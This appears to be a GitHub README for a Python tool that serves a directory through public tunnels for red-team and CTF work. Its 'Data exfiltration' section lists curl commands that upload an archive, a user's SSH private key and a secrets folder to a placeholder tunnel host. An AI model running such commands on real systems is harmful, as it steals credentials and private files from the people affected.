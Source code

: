 <h2 align="center">
  🪝 Webhook Server Tunnel
</h2>


 
<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FSearchToolkit">
        <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fwebhook&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.buymeacoffee.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Buy%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black" alt="Buy Me a Coffee">
    </a>  
    <a href="mailto:l0n3m4n@proton.me">
      <img src="https://img.shields.io/badge/ProtonMail-6001D2?style=for-the-badge&logo=protonmail&logoColor=white" alt="ProtonMail">
    </a>
    <a href="https://github.com/l0n3m4n/SearchToolkit/blob/main/assets/contributing.md">
      <img src="https://img.shields.io/badge/Contribute-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
  </a>
</p>
<br/>

This Python script serves a local directory over HTTP and exposes it securely to the internet via a reverse tunnel using either:

- Serveo (SSH-based tunneling)
- Cloudflared (Cloudflare Tunnel)

It’s especially useful for:

- 📁 Hosting payloads or exploits during red team exercises or CTFs
- 📤 Exfiltrating data from compromised targets in a controlled environment via (`https`)
- 🧪 Testing XSS, CSRF, and SSRF vulnerabilities by exposing local endpoints
- 🌐 Simulating external servers during bug bounty engagements
- 💻 Demonstrating proof-of-concepts (PoCs) for file uploads or callbacks
- 🔐 Secure remote access to localhost web apps for testing
- 📡 Bypassing NAT/firewall restrictions without port forwarding

---

## 🚀 Features

- HTTP server using Python's built-in modules
- Logs all request headers to `headers.log`
- Expose server via:
  - 🌐 [Serveo](https://serveo.net)
  - ☁️ [Cloudflared](https://developers.cloudflare.com/cloudflare-one/)
- ANSI-colored terminal output
- Easy to use CLI

---

## 🚀 Banner  
```bash
 python3 webhook.py -h

     .->    (`-')  _<-.(`-')  (`-').->                      <-.(`-')  
 (`(`-')/`) ( OO).-/ __( OO)  (OO )__      .->        .->    __( OO)  
,-`( OO).',(,------.'-'---.\ ,--. ,'-'(`-')----. (`-')----. '-'. ,--. 
|  |\\  |  | |  .---'| .-. (/ |  | |  |( OO).-.  '( OO).-.  '|  .'   / 
|  | '.|  |(|  '--. | '-' `.)|  `-'  |( _) | |  |( _) | |  ||      /) 
|  |.'.|  | |  .--' | /`'.  ||  .-.  | \\|  |)|  | \\|  |)|  ||  .   '  
|   ,'.   | |  `---.| '--'  /|  | |  |  '  '-'  '  '  '-'  '|  |\\   \\ 
`--'   '--' `------'`------' `--' `--'   `-----'    `-----' `--' '--' 
     Author: l0n3m4n | Version: 1.1.3 | Tunneling local Server 

usage: webhook.py [-h] [-p PORT] [-d DIRECTORY] (--serveo | --cloudflared | --ngrok | --localtunnel)
                  [--exiftool]

📡 Serve a local directory and expose it via a tunnel (Serveo, Cloudflared, Ngrok, LocalTunnel).

options:
  -h, --help            show this help message and exit
  -p, --port PORT       Local port to serve (default: 80)
  -d, --directory DIRECTORY
                        Directory to serve (default: current dir)
  --serveo              Use Serveo tunnel
  --cloudflared         Use Cloudflared tunnel
  --ngrok               Use Ngrok tunnel
  --localtunnel         Use LocalTunnel tunnel
  --exiftool            Use ExifTool for metadata extraction


    Examples:                                                                                         
      python3 webhook.py -p 8080 --serveo --exiftool                                        
      python3 webhook.py -p 80 -d /var/www/html --cloudflared                                          
      python3 webhook.py -p 3000 -d ~/my-site --ngrok                                                 
      python3 webhook.py -p 8080 -d ~/my-site --localtunnel 
```

## 🛠 Requirements

  - Python 3.6+
  - Internet access (for tunnels)
  - At least one tunneling tool installed:
      * Serveo (via SSH)
      * cloudflared (fallback if Serveo fails)
      * ngrok (optional)
      * localtunnel (optional)
      * exiftool

---

## 📦 Installation

```bash
# Clone the repo
git clone https://github.com/l0n3m4n/webhook.git
cd webhook 
pip install -r requirements.txt --break-system-packages

# Make it executable
chmod +x webhook.py 
```

## 🐧 Kali linux (debian,ubuntu)
```bash
# system update
sudo apt update

# dependencies
sudo apt install -y curl gnupg lsb-release

# Add Cloudflare's GPG key
curl -fsSL https://pkg.cloudflare.com/cloudflare-main.gpg | sudo gpg --dearmor -o /usr/share/keyrings/cloudflare-main.gpg

# Add the Cloudflare apt repository
echo "deb [signed-by=/usr/share/keyrings/cloudflare-main.gpg] https://pkg.cloudflare.com/cloudflared $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/cloudflared.list

# Update apt again and Install
sudo apt update && sudo apt install cloudflared -y 
```
## 📡 Usage
```bash
sudo python3 webhook.py -p 8080 --serveo -d /var/www/html
```
![usage](assets/usage.png)
![output](assets/output.png)
![status_codes](assets/status_codes.png)
![headers_log](assets/headers_logs.png)
 

## 🔁 Data exfiltration
```bash
curl -X POST http://abc123.cloudflaretunnel.com/upload --data-binary "@loot.zip"

curl -F "file=@/home/user/.ssh/id_rsa" https://abc123.cloudflareTunnel.com/upload

tar czf secrets.tar.gz ~/Documents/secrets
curl -F "file=@secrets.tar.gz" https://abc123.cloudflareTunnel.com/upload

```

## 🔐 Security Notes
- This tool uses SSH for Serveo and a reverse proxy for Cloudflared.
- Ensure you trust any services you expose publicly.

## ✅ TODO List

### 🔌 Tunnel Providers
- [x] Add support for multiple tunneling services:
  - [x] `Serveo`
  - [x] `Cloudflared`
  - [x] `Ngrok`
  - [x] `LocalTunnel`
- [x] Add CLI flags for selecting tunnel provider (e.g., `--serveo`, `--cloudflared`, `--ngrok`)
- [x] Auto-detect and install missing binaries (e.g., `ngrok`, `cloudflared`)

### 🌐 Server Features
- [x] Display public tunnel URL clearly
- [x] Serve files from a specified directory
- [x] Web-based directory listing with download buttons
- [x] File upload support for data exfiltration
- [x] Log incoming HTTP requests (IP, User-Agent, Time)

### ⏱️ Control & Automation
- [ ] Implement auto-shutdown timer
- [ ] Auto-reconnect/restart tunnels on failure
- [ ] Add password protection for server access

### 🧪 Exploitation Helpers
- [ ] Generate payload templates:
  - [ ] XSS (DOM, Reflected, Stored)
  - [ ] CSRF Proof of Concept
  - [ ] LFI/RFI test cases
  - [ ] SSRF test URLs
- [ ] Webhook listener module (e.g., for Blind XSS or SSRF detection)
- [ ] Integrate with Interactsh or Burp Collaborator

### 🛠️ Developer Tools
- [ ] Proxy chaining to local tools like Burp Suite
- [ ] Optional local logging
- [ ] QR code generator for public URLs
- [x] CLI output beautification (colors, banners, progress indicators)

---

> Contributions and suggestions are welcome!
